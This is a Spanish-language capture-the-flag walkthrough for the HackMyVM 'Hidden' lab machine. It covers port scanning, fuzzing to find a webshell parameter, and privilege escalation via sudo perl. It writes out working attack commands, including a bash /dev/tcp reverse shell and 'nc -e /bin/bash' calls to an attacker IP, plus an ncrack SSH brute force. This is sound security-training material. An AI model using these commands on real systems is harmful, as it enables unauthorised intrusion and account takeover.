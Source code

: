 ```yaml
---
layout: post
author: Quino
title: Hidden, HACKMYVM
---
```


En esta maquina facil nos encontramos con enumeracion , fuzzing , fuerza bruta , reverse shell 

![portada](assets/img_hidden/hidden.png)

## Herramientas y software utilizado

- arp-scan
- nmap
- gobuster , wfuzz
- sudo
- python3 http.server
- ncrack

Una vez encontrada la maquina realizamos un scan de puertos con nmap

![nmap](assets/img_hidden/nmap.png)   

Como vemos en este caso solo tenemos el puerto 22 y el 80 asi que primero vamos a ver la web y su codigo fuente.

![web1](assets/img_hidden/web1.png)

En la web nos encontramos  con una imagen con un codigo extraño y su nombre indica que lo decodifiquemos y mas abajo en un comentario nos indica que ese codigo usa un formato concreto.

![code_level1](assets/img_hidden/code_level1.png)

Nos vamos a la siguiente web https://www.dcode.fr/tic-tac-toe-cipher y buscamos la codificacion correcta para nuestro codigo para poder obtener algo legible.

![level1](assets/img_hidden/level1.png)

>¿Cuál es la diferencia entre codificar y cifrar?
Los códigos por lo general operan sobre la semántica, significados, mientras que los cifrados operan sobre la sintaxis, símbolos. 
Un código se almacena como un mapeo en un libro de códigos, mientras que los cifrados transforman símbolos individuales de acuerdo con un algoritmo.

Una vez localizado y decodeado lo añadimos a /etc/hosts vamos a la web de nuevo a ver que hay.

![etc_hosts](assets/img_hidden/etc_hosts.png)

![level2](assets/img_hidden/level2.png)

Como vemos no hay nada util asi que toca hacer fuzzing contra la ruta añadida en etc/hosts para buscar directorios y archivos ocultos.

```bash
gobuster -q dir -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://sys.hidden.hmv --exclude-length 3690
```

![gobuster](assets/img_hidden/gobuster.png)

Como vemos nos muestra tres directorios ocultos dos de ellos son para distraernos y uno de ellos nos devuelve una web en blanco.

Vamos a hacer fuzzing de nuevo contra ese otro directorio para ver si esconde algo mas.

```bash
gobuster -q dir -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml -u http://sys.hidden.hmv/weapon --exclude-length 3690
```
![level_weapon](assets/img_hidden/level_weapon.png)

Nos encuentra un archivo con nombre loot.php al que tenemos acceso pero nos devuelve una web en blanco , me hace pensar que hay una webshell , pero nos faltan datos para hacer uso de ella si es que existe .

Esta vez neceitamos encontrar la carga que falta para poder ejecutar comandos y vamos a hacer uso de otro fuzzer en este caso wfuzz para ver si encuentra la carga util que nos faltaria.

>Las webshell siempre tienen este fomato:
>htttp:direccion/archivo.php?loquesea=comando
>Al menos por lo que he visto hasta la fecha pero imagino que pueden crearse con otro lenguaje.

```bash
wfuzz -c -w /usr/share/dirb/wordlists/big.txt  -u http://sys.hidden.hmv/weapon/loot.php\?FUZZ\=ls --hw 0
```

![wfuzz_rce](assets/img_hidden/wfuzz_rce.png)

![web_rce_ok](assets/img_hidden/web_rce_ok.png)

Como vemos en la imagen y despues de varias pruebas con otros fuzzers encontro la palabrita que nos da paso a la ejecucion de comandos remota , es momento de mandarnos una reverseshell.

Para ello podemos buscar en internet hay varias paginas que te la crean yo uso la siguiente https://www.revshells.com/.

Lo primero es poner nuestra maquina a la escucha:

```bash
nc -lvpn 9001
```

Despues en la webshell ejecutamos:

```bash
sh -i >& /dev/tcp/192.168.0.112/9001 0>&1
```

Este intento no me conecto ni encodeando la url acto seguido hago lo mismo pero llamando a nc directamente.

```bash
nc 20192.168.0.112 9001 -e sh
```

Con este segundo metodo tampoco me conectaba como esperaba pueden ver el error en la imagen de abajo al igual que la conexion exitosa cuando cambie el sh por un /bin/bash quedando el comando de la siguiente manera.

```bash
nc 20192.168.0.112 9001 -e /bin/bash
```

![nc_errors_ok.png](assets/img_hidden/nc_errors_ok.png)

Spanw de shell 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Aqui podemos ver el fichero que creo para verificar que la carga util era la palabra hack que por lo general usan cmd , exec , etc....

![loop](assets/img_hidden/contenido_loop.png)

Ahora como siempre lo primero sera un sudo -l o permisos suid con find para algun binario o script personal.

![sudo-ltoreto](assets/img_hidden/sudo-l_toreto.png)

Al hacer un ls sobre el home vemos que hay dos usuario toreto y atenea y el usuario toreto puede ejcutar perl con permisos sudo . 
Vamos a gtofbins para ver como se hace y poder acceder al sistema de ficheros de toreto conservando sus privilegios.

>Recordar que sois www-data hay que indicarle a sudo con el usuario que quereis ejecutar sudo.

```bash
sudo -u toreto perl -e 'exec "/bin/bash" ;'
```

![acceso_toreto](assets/img_hidden/acceso_toreto.png)

El usuario toreto no tiene nada interesante revisamos el user atenea y encontramos una carpeta oculta con un diccionario de claves , debemos descargarlo y lanzar cualquier software que permita ataque por diccionario.
Para ello levanto un servicio web con python en el directorio 

```bash
python3 -m http.server
```

Descargamos el diccionario y lanzamos en mi caso ncrack

```bash
ncrack -p 22 --user atenea -P atenea.txt 192.168.0.101
```

![ncrak](assets/img_hidden/ncrack.png)

Nos logueamos por ssh con el user y la pass y empezmos la escala final como antes con sudo -l.

![login_atenea](assets/img_hidden/login_atenea.png)

![sudo_atenea](assets/img_hidden/sudo_atenea.png)

Consultamos gtofbins para ver como se hace la escala con socat.

Para variar no olviden buscar las flags

Muchas gracias por leer.
